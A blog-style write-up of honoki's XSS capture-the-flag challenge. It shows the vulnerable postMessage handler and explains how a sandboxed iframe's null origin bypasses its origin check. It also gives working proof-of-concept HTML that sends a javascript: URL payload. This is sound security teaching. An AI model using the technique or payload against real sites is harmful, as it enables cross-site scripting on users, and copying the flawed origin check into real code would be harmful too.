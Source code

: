 ```yaml
---
layout: single
title: XSS challenge By honoki
date: 2022-05-04
classes: wide
tags:
  - XSS
  - Challenge
  - honoki
---
```


How could two security features collide into a vulnerability? Read more to find out!

![twitter-post](/assets/images/other/honoki/twitter-post.png)

## Overview

To start off, here is the complete codebase of the challenge.

```
<script>
var originAllowed = function(o) {
  try {
    return new URL(o,window.location.origin).hostname === new URL(window.location).hostname;
  } catch (e) {
    return false;
  }
}

window.addEventListener("message", function(e) {
  if (originAllowed(e.origin) && e.data) {
    try {
      t = JSON.parse(e.data)
    } catch (e) {}
    if (t && "object" == typeof t && t.goto) { window.location = t.goto; }
  }
});
</script>
```

The first issue here is the insecure assignment on `window.location`, which definitely leads to XSS. Here is a small PoC:

![self-xss](/assets/images/other/honoki/self-xss.png)

Unfortunately, this is only half of the challenge. As honoki explained, here's what needs to be done:

![twitter-clarification](/assets/images/other/honoki/twitter-clarification.png)

This could only be done if the origin check at `originAllowed` is somehow insecure or broken.

The function returns true only if the event origin's hostname is equal to the location origin's hostname.

However, the first part is very suspicious.

```
new URL(o,window.location.origin)
```

Using the location origin as an URL base is a bad idea.

![twitter comment](/assets/images/other/honoki/twitter-comment.png)

If I were to somehow hide my origin, then the following would happen:

![null-origin](/assets/images/other/honoki/null-origin.png)

If an `iframe` makes a `postMessage` call and has a `sandbox` attribute that doesn’t contain the value `allow-same-origin`, [browsers give it a “unique” origin](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-iframe-element:concept-origin-2):

> When the `sandbox` attribute is set, the content is treated as being from a unique origin, forms, scripts, and various potentially annoying APIs are disabled, links are prevented from targeting other browsing contexts, and plugins are secured. The allow-same-origin keyword causes the content to be treated as being from its real origin instead of forcing it into a unique origin.

When determining the value of the Origin header to send in a cross-origin request, browsers serialize any unique origin as `null` and give the Origin header that value.

## Solution

I first write the `postMessage` caller like this:

```
<html>
    <body>
        <script>
            var url = "https://demo.honoki.net/xss-challenge.html"
            var pup = window.open(url)
            setTimeout(() => {
                pup.postMessage('{"goto": "javascript:alert(document.domain)"}', url)
            },1500)
        </script>
    </body>
</html>
```

Next, I frame the code and give it the required sandbox attributes.

```
<html>
    <iframe
        src="./exploit.html"
        sandbox="allow-scripts allow-popups allow-popups-to-escape-sandbox"
    ></iframe>
</html>
```

The `allow-scripts`, `allow-popups` and `allow-popups-to-escape-sandbox` are required to make the `postMessage` call.

Here is the result when I run it on a local server.

![alert](/assets/images/other/honoki/alert.png)

Thanks for reading!